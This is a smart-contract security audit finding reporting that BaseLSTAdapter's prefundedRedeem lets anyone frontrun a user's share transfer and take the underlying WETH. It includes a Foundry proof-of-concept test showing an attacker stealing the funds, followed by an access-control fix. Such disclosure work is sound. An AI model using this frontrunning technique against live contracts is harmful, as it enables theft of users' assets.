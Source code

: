 Fit Tin Chipmunk

medium

# Shares could be lost and assets stolen with prefunded redemptions to children of `BaseLSTAdapter`

## Summary
Transfers of target token (adapter shares) to `BaseLSTAdapter`'s child contracts (`StEtherAdapter`, `SFrxETHAdapter`) could be lost and underlying assets could be stolen by an arbitrary sender who invokes the `prefundedRedeem` function.

## Vulnerability Detail
The design of the `prefundedRedeem` function implies that the caller should first transfer some amount of the target token (shares) and after that call the `prefundedRedeem` function within the same transaction, similarly to how it is done in the `Tranche` contract:

* https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol#L283-L284
* https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol#L313-L314
* https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol#L345-L346
* https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol#L422-L423

However if the `prefundedRedeem` function is not invoked within the same transaction, it could be either called by another user or frontrun by an attacker. This way the attacker will steal the underlying assets in the adapter contract, as there aren't any redemption ownership checks or accounting present in the `prefundedRedeem` function.

https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/BaseLSTAdapter.sol#L146-L169

## Impact
Users could lose their shares in the adapter and not receive their underlying assets (WETH) in return.

## Code Snippet
https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/BaseLSTAdapter.sol#L146-L169

## PoC

Add the following test in the `napier-v1/test/unit/adapters/BaseTestLSTAdapter.t.sol` test and run it by using:

```bash
forge test -vvv --match-test testPrefundedRedeem_WhenUserDepositsSharesInSeparateTransaction_ThenUserGetsFrontrunByAttackerAndLosesFunds
```

```solidity
    function testPrefundedRedeem_WhenUserDepositsSharesInSeparateTransaction_ThenUserGetsFrontrunByAttackerAndLosesFunds()
        public
        virtual
    {
        // GIVEN
        _storeBufferEth(1 ether);

        deal(address(target), address(user), 1 ether, true);
        assertEq(target.balanceOf(address(user)), 1 ether);

        address attacker = makeAddr("attacker");
        assertEq(target.balanceOf(address(attacker)), 0);

        // WHEN
        vm.startPrank(user);
        target.transfer(address(adapter), 1 ether);
        vm.stopPrank();

        assertEq(target.balanceOf(address(user)), 0);
        assertEq(target.balanceOf(address(adapter)), 1 ether);

        // THEN
        vm.startPrank(attacker);
        // The user's call to adapter's `prefundedRedeem` function is actually frontrun by an attacker
        (uint256 wethWithdrawn, uint256 sharesRedeemed) = adapter.prefundedRedeem(attacker);
        vm.stopPrank();

        assertEq(sharesRedeemed, 1 ether);
        assertEq(wethWithdrawn, underlying.balanceOf(attacker));
        assertTrue(wethWithdrawn > 0);
        assertEq(underlying.balanceOf(user), 0); // User doesn't receive any WETH and thus loses deposited assets.
    }
```

## Tool used

Manual Review

## Recommendation
If the `BaseLSTAdapter` and its children (`StEtherAdapter`, `SFrxETHAdapter`) is indeed expected to be used only by the `Tranche` contract, make the `prefundedRedeem` callable only by the `Tranche` contract via a modifier e.g.:

```solidity
    function prefundedRedeem(address recipient) external virtual onlyTranche returns (uint256, uint256) {
```